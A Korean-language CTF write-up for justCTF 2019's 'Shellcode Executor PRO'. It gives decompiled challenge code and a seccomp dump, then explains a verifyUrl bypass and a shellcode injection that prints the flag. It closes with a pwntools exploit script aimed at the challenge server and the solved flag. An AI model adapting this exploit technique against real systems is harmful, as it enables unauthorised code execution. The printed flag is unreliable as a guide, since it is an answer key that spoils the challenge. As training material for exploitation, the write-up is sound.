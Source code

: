 ```yaml
---
title: "2019 just CTF Shellcode Executor PRO"
date: 2020-1-15
ctf: Just CTF
layout: post
---
```




1번 메뉴

입력받은 걸 `verifyUrl` 함수에서 xor 1한 값이 9보다 작아야한다. 안 그러면 exit해준다.

```c
int downloadShellcode()
{
  char *s; // ST18_8

  s = malloc(0x400uLL);
  printf("Enter url: ");
  fgets(s, 1024, stdin);
  if ( verifyUrl(s) ^ 1 )
  {
    puts("Your url contains incorrect characters, this incident will be reported");
    exit(-1);
  }
  return puts("For this feature you need to purchase the full version of our product");
}
```

2번 메뉴

`demo_shellcode` 라는 영역을 free해줄 수 있다.

```c
void __fastcall deleteShellcode(__int64 a1)
{
  if ( *a1 )
  {
    puts("This shellcode has already been deleted");
  }
  else
  {
    *a1 = 1;
    free(*(a1 + 8));
    free(*(a1 + 16));
  }
}
```

3번 메뉴

쉘코드를 `restrictAccess` 함수 bypass하면 실행해준다.

```c
int __fastcall executeShellcode(__int64 a1)
{
  void *dest; // [rsp+18h] [rbp-8h]

  printf("Executing shellcode from %s\n", *(a1 + 8));
  dest = mmap(0LL, 0x400uLL, 7, 34, -1, 0LL);
  memcpy(dest, *(a1 + 16), 0x400uLL);
  if ( restricted != 1 )
    restrictAccess();
  puts("====================================");
  (dest)("====================================");
  puts("====================================");
  return munmap(dest, 0x400uLL);
}
```

`restrictAccess` 함수를 보면 seccomp가 걸려있는데 read, write, mmap, munmap .. 등등만 허용해놨다.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000009  if (A == mmap) goto 0012
 0008: 0x15 0x03 0x00 0x0000000b  if (A == munmap) goto 0012
 0009: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

`demo_shellcode` 라는 영역을 3번 메뉴에서 실행시켜주기 때문에 이곳에 쉘코드를 넣어주면 된다. 근데 밑에 `The flag will be here` 이라는 문구가 있다. 여기에 플래그가 있어서 읽어오면 될거다. 

![](https://user-images.githubusercontent.com/32904385/72424712-c3229880-37c9-11ea-9ce9-5d58e2ef305a.png)

익스는 write로 flag 영역을 긁어오면 된다. 근데 우선 `verifyUrl` 함수를 우회해줘야하는데 `\x00` 을 넣어서 우회하려고 했는데 쉘코드가 실행이 안된다.그래서 `xor al,0 ` 으로 우회해주면 된다.

익스 순서는 `demo_shellcode` 영역을 free해주고 `downloadShellcode` 함수에서 `write(1,rip+0x70,0xff)` 해준 후에 입력해주면 된다. `rip+0x70`은 flag위치다. 

마지막으로 `executeShellcode` 함수 실행해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./shellcodeexecutor')
#p = process('./shellcodeexecutor')
p = remote('46.101.173.184', 1446)

payload = '''
xor al, 0
mov rdi, 1
lea rsi, [rip+0x70]
mov rdx, 0xff
mov rax, 1
syscall
'''

p.sendlineafter('>','2') # Delete shellcode -> Demo Free
p.sendlineafter('>','1') # Download shellcode from url -> allocate
p.sendlineafter(':',asm(payload)) # verifyUrl bypass
p.sendlineafter('>','3') # executeShellcode -> seccomp bypass

p.interactive()
```

**FLAG : `justCTF{f0r_4_b3tt3r_fl4g_purch4s3_th3_full_v3rsi0n_0f_0ur_pr0duct}`**